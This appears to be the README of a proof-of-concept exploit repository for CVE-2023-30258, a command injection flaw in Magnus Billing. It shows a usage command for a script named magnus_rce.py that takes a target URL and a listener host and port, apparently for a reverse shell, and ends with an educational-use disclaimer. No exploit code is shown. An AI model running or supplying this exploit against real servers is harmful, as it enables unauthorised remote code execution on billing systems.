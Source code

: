 # Magnus Billing 6.X and 7.X CVE-2023-30258

A proof-of-concept for CVE-2023-30258 Magnus Billing - Command Injection Vulnerability.

## Getting Started

### Executing program

* With python3
```
python3 magnus_rce.py -t 'http://magnusbilling.url/' -lh 127.0.0.1 -lp 1337
```

## Help

For help menu:
```
python3 magnus_rce.py -h
```

## Disclaimer
All the code provided on this repository is for educational/research purposes only. Any actions and/or activities related to the material contained within this repository is solely your responsibility. The misuse of the code in this repository can result in criminal charges brought against the persons in question. Author will not be held responsible in the event any criminal charges be brought against any individuals misusing the code in this repository to break the law.

